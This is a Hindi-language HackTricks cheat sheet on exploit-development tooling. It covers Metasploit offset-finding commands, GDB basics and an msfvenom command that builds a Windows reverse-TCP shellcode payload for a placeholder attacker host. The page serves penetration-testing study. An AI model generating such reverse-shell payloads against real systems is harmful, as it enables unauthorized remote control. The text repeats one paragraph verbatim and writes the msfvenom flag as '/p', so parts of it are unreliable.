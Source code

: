<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>


# Metasploit
```
pattern_create.rb -l 3000   #Length
pattern_offset.rb -l 3000 -q 5f97d534   #Search offset
nasm_shell.rb
nasm> jmp esp   #Get opcodes
msfelfscan -j esi /opt/fusion/bin/level01
```
## शैलकोड्स

शैलकोड्स एक प्रोग्राम होते हैं जो हैकर्स को एक सिस्टम में नियंत्रण प्राप्त करने की अनुमति देते हैं। ये प्रोग्राम बाइनरी रूप में होते हैं और वे विभिन्न तरीकों से एक सिस्टम में इंजेक्ट किए जा सकते हैं। शैलकोड्स का उपयोग अनधिकृत गतिविधियों के लिए किया जाता है, जैसे कि एक सिस्टम को अवैध रूप से अधिग्रहण करना या डेटा को चोरी करना।

शैलकोड्स को विकसित करने के लिए कई तकनीकें होती हैं, जैसे कि बफर ओवरफ्लो, शैलकोड इंजेक्शन, और मेमोरी कोरप्शन। ये तकनीकें शैलकोड्स को एक सिस्टम में सफलतापूर्वक इंजेक्ट करने के लिए उपयोग की जाती हैं।

शैलकोड्स को विकसित करने के लिए कई टूल्स उपलब्ध हैं, जैसे कि Metasploit, Shellter, Veil, और msfvenom। ये टूल्स शैलकोड्स को विभिन्न प्लेटफॉर्मों पर इंजेक्ट करने के लिए उपयोग किए जा सकते हैं, जैसे कि Windows, Linux, और Android।

शैलकोड्स का उपयोग करने के लिए, हैकर्स को शैलकोड्स को एक सिस्टम में इंजेक्ट करने के लिए एक विन्यास तैयार करना होता है। इसके बाद, शैलकोड्स एक निर्दिष्ट कार्य को पूरा करने के लिए उपयोग किए जा सकते हैं, जैसे कि एक शेल खोलना, एक फ़ाइल डाउनलोड करना, या एक नेटवर्क कनेक्शन स्थापित करना।

शैलकोड्स का उपयोग करने के लिए, हैकर्स को शैलकोड्स को एक सिस्टम में इंजेक्ट करने के लिए एक विन्यास तैयार करना होता है। इसके बाद, शैलकोड्स एक निर्दिष्ट कार्य को पूरा करने के लिए उपयोग किए जा सकते हैं, जैसे कि एक शेल खोलना, एक फ़ाइल डाउनलोड करना, या एक नेटवर्क कनेक्शन स्थापित करना।
```
msfvenom /p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> [EXITFUNC=thread] [-e x86/shikata_ga_nai] -b "\x00\x0a\x0d" -f c
```
# GDB

## स्थापित करें
```
apt-get install gdb
```
## पैरामीटर

**-q** --> बैनर दिखाने की आवश्यकता नहीं\
**-x \<फ़ाइल>** --> यहां से GDB निर्देशों को स्वचालित रूप से निष्पादित करें\
**-p \<pid>** --> प्रक्रिया में संलग्न हों
